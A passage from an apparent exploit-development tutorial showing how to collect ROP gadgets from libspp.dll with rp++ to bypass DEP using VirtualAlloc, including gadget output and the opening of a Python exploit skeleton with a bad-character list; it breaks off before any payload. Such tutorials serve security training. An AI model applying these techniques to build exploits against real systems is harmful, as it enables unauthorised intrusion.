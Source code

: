 As mentioned there's only one suitable option and that is `libspp.dll`. This module is loaded at a base address of `0x10000000` and does not contain null bytes as the other modules do. To extract all the rop gadgets from this module we will utilize `rp++` -- [https://github.com/0vercl0k/rp] --, and the command will go something like this :`rp-win-x64.exe -f libspp.dll -r 5 > libspp_rops.txt`

Our text file will look like this:
```text
Trying to open 'libspp.dll'..
Loading PE information..
FileFormat: PE, Arch: Ia32
Using the Nasm syntax..

Wait a few seconds, rp++ is looking for gadgets..
in .text
191631 found.

A total of 191631 gadgets found.
0x10013db6: aaa  ; adc al, 0x00 ; add esp, 0x08 ; call eax ;  (1 found)
0x10033d5f: aaa  ; adc al, byte [eax] ; add esp, 0x08 ; call eax ;  (1 found)
...[snip]
0x1008132a: lahf  ; add eax, 0xB85E5F00 ; add dword [eax], eax ; add byte [eax], al ; pop ebx ; ret  ;  (1 found)
0x10077e9d: lahf  ; fdiv st7, st0 ; inc dword [ebp+0x5F0B75C0] ; pop esi ; add esp, 0x00000104 ; retn 0x0004 ;  (1 found)
0x100110dc: lahf  ; lgdt  [eax] ; sbb eax, 0xE1100110 ; lgdt  [eax] ; ret  ;  (1 found)
0x100bd192: lahf  ; or dword [eax], eax ; add esp, 0x04 ; mov eax, esi ; pop esi ; retn 0x0004 ;  (1 found)
0x10114679: lahf  ; pop ds ; adc al, ch ; mov ecx, 0x8300042E ; les ecx,  [eax] ; call eax ;  (1 found)
```

Pretty simple right? For what it's worth, rp++ retrieved over 190,000 gadgets. Granted most of them are repeat gadgets, which brings down our total number to around 30,000 but not all of these gadgets will be beneficial to us, as we will see shortly some will alter the stack irreversibly and will simply break our exploit.

At this point we know a few things:
+ The Windows API we will use to bypass DEP
+ The module will we use to find suitable gadgets

Next on the list is to find the address of `VirtualAlloc` in a way that will compensate for the fact the address changes on every iteration of the application. Before we jump into that, lets go over to VSCode and start getting a skeleton of exploit down. In the interest of time, I've skipped the fuzzing for bad characters portion.

```python
#!/usr/bin/python
import socket
import sys
import argparse
from struct import pack

try:
    # A nice way to set up arguments for our script
    parser = argparse.ArgumentParser(description='VirtualAlloc DEP Bypass')
    parser.add_argument('--server', required=True, help='IP address of the server')
    parser.add_argument('--port', type=int, default=80, help='Port number (default: 80)')

    args = parser.parse_args()

    server = args.server
    port = args.port
    size = 800

    # BADCHARS = 0x00, 0x0A, 0x0D, 0x25, 0x26, 0x2B, 0x3D

```